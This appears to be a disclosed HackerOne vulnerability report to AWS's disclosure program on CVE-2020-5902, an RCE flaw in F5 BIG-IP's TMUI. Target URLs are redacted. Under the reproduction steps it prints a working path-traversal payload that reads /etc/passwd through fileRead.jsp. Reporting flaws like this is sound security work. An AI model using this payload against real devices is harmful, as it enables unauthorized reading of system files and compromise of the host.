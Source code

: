 # CVE-2020-5902 

## Report Details
- **Report ID**: 2794126
- **URL**: https://hackerone.com/reports/2794126
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-10-21T12:22:44.067Z
- **Disclosed**: 2024-12-24T18:07:49.908Z

## Reporter
- **Username**: perigou
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: aws_vdp

## Vulnerability Information
**CVE ID: ** CVE-2020-5902

**Description:** 
Affected Product: F5 BIG-IP Traffic Management User Interface (TMUI)
Severity: Critical
CVSS Score: 9.8
Description: Remote Code Execution (RCE) vulnerability in undisclosed pages of the TMUI
CVE-2020-5902 is a critical vulnerability affecting the BIG-IP Traffic Management User Interface (TMUI), also known as the Configuration utility. This vulnerability allows for Remote Code Execution (RCE) in undisclosed pages of the TMUI.
Affected Versions
BIG-IP versions ████
BIG-IP versions █████
BIG-IP versions ███
BIG-IP versions ███
BIG-IP versions ███


## Steps To Reproduce:
## URL :
███
 payload used :/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
Full URL:
█████████?fileName=/etc/passwd

## Impact

## Summary:
The vulnerability can be exploited by an attacker to execute arbitrary code on the affected system, leading to unauthorized access, data breaches, and system compromise.

## Attachments
- payload.JPG
